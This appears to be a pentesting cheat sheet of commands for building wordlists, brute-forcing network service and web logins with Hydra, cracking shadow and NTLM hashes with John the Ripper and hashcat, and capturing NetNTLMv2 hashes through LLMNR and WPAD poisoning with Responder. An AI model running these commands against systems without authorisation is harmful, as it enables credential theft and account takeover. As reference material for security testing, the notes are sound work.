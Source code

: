 # Password Cracking

## Objective

Here are some tips and examples of password cracking and enumeration

## Creating Password Lists

```text
crunch [min] [max] [characters] -t [pattern] -o [FileName]
crunch 4 6 0123456789ABCDEF -o crunch1.txt #From length 4 to 6 using that alphabet
crunch 4 4 -f /usr/share/crunch/charset.lst mixalpha #Only length 4 using charset mixalpha
cewl example.com -m 5 -w words.txt
```

Use CeWL to spider site and create a list of unique words used on the site:

```text
cewl https://mywebsite.com -w /home/cewl_wordlist
```

**Wordlists** [https://github.com/danielmiessler/SecLists](https://github.com/danielmiessler/SecLists) [https://github.com/Dormidera/WordList-Compendium](https://github.com/Dormidera/WordList-Compendium) [https://github.com/kaonashi-passwords/Kaonashi](https://github.com/kaonashi-passwords/Kaonashi)

## Hydra

Hydra FTP, MySQL, Postgres, and HTTPS Bruteforce:

```text
hydra -L usernames.txt -P passwords.txt 192.168.2.62 ftp -V -f
hydra -L usernames.txt -P passwords.txt 192.168.2.66 mysql -V -f
hydra -L usernames.txt -P passwords.txt 192.168.2.62 postgres -V
hydra -L usernames.txt -P passwords.txt 192.168.2.62 http-post-form “/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login:Login Failed”
```

Hydra Telnet , SSH, RTSP, and SNMP Bruteforce:

```text
hydra -L usernames.txt -P passwords.txt 192.168.2.62 telnet -V
hydra -L usernames.txt -P passwords.txt 192.168.2.66 ssh -V
hydra -l root -P passwords.txt <IP> rtsp
hydra -P/usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txttarget.com snmp
```

Hydra SMB, SMB w/pass spraying SMTP, and VNC Bruteforce:

```text
hydra -L usernames.txt -P passwords.txt 192.168.2.66 smb -V -f
hydra -L users.txt -p Autumn2016 2.3.4.5 smb
hydra -l <username> -P /path/to/passwords.txt <IP> smtp-V
hydra  -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc
```

## John the Ripper

**Run john in Test Mode and against a LANMAN password**

```text
john --test
john LANMAN.txt
```

NTLM Cracking

```text
john --wordlist=/usr/share/wordlists/rockyou.txt --format=NT file_NTLM.hashes
hashcat -a 0 -m 1000 --username file_NTLM.hashes /usr/share/wordlists/rockyou.txt --potfile-path salida_NT.pot
```

This command fuses the two files together into a single file called "combined":

```text
unshadow /tmp/passwd_copy /tmp/shadow_copy > /tmp/combined
```

Look at JtR Dictionary:

```text
less /opt/JohnTheRipper/run/password.lst
```

Crack Password and show passwords cracked:

```text
john --format=sha512crypt /tmp/combined or john /tmp/combined
john --show mypasswd
```

Cracking Responder Hashes:

```text
john -format=netntlmv2 ./SMB-NTLMv2-SSP-10.10.0.1.txt
```

General Process

John the Ripper:

```text
unshadow passwd shadow > unshadowed.txt
john unshadowed.txt
```

Next, let’s go through the “john.log” file using the grep tool and see how long some of the passwords took to crack:

```text
grep Cracked /root/.john/john.log
```

Let’s see how long it took for John the Ripper to switch between cracking modes:

```text
grep Proceed /root/.john/john.log
```

## Responder

Responder to grab NTLM Creds \(\#-i tell victim systems to connect to this IP address for LLMNR responses\):

```text
cd /opt/Responder
./Responder/py -I eth0 -i 10.10.10.1
```

On Windows machine, type the following in the location bar:

```text
\hellovr
```

Run Responder and Crack Password w/John:

```text
sudo /opt/responder/Responder.py -I eth0
john --format=netntlmv2 /opt/responder/logs/SMBv2-NTLMv2-SSP.txt
```

Specify the IP address to redirect to \(-i 192.168.1.202\), enabling the WPAD rogue proxy \(-w On\), answers for netbios wredir \(-r On\), and fingerprinting \(-f On\):

```text
responder -i 192.168.1.202 -w On -r On -f On

Responder -I eth0 -wbF
“-w” Starts the WPAD Server
“-b” Enables basic HTTP authentication
“-F” Forces authentication for WPAD (a login prompt)
```

